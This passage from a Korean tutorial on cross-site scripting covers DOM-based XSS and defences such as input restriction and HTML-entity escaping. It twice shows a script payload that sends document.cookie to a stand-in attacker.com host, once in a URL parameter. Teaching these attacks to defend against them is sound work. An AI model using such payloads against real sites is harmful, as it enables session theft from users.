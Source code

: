 ```
<script>document.location="https://attacker.com?cookie="+document.cookie</script>
```

<br>

![image](https://user-images.githubusercontent.com/52060742/129577372-3f8fa190-1478-46a9-a452-6e28a98248ae.png)

<br>

### DOM based XSS

<br>

`DOM 기반 XSS 공격`이다. Reflected XSS와 비슷하게 사용자가 악성 스크립트가 포함된 링크를 클릭하도록 유도한다.

브라우저에 DOM을 추가할 수 있는 `innerHTML` 이라는 속성은 사용자가 요청한 값을 가지고 DOM을 동적으로 그릴수있기 때문에 DOM이 렌더링 되면서 악성 스크립트가 실행된다.

<br>

```
weak.com?keyword=<script>document.location="https://attacker.com?cookie="+document.cookie</script>
```

<br>

![image](https://user-images.githubusercontent.com/52060742/129577580-824f2272-78a5-4603-b6c6-ebc656ce17bb.png)

<br>

## XSS 대응방안

<br>

그렇다면 이러한 XSS 공격들을 어떻게 막을 수 있을까? 막을 수 있는 방법은 여러가지가 있고 그 중 몇가지에 대해 설명하겠다.

<br>

### 사용자의 입력, 요청값 제한

예를 들어 weak.com?id=101 처럼 `id`에는 숫자값만 받을 수 있도록 제한하는 것이다. 하지만 이 방법은 검색과 같은 weak.com?search=키워드 처럼 `search` 는 문자열을 받아야 하기 때문에 아직 완전히 막을 수는 없다.

<br>

### 사용자의 입력, 요청값 치환

보통 XSS 공격은 `<script>` 를 사용하여 공격한다. 그래서 태그를 사용하기 위한 문자인 `<` 과 `>` 를 `HTML Entity` 로 치환하고 서버에서 해당 문자를 인코딩 하는 방법이다. (정규표현식을 사용하여 치환할 수도 있다.)

```js
queryString = queryString.replace(/\<|\>|\"|\'|\%|\;|\(|\)|\&|\+|\-/g, '');
```

<br>

### HTML Entity
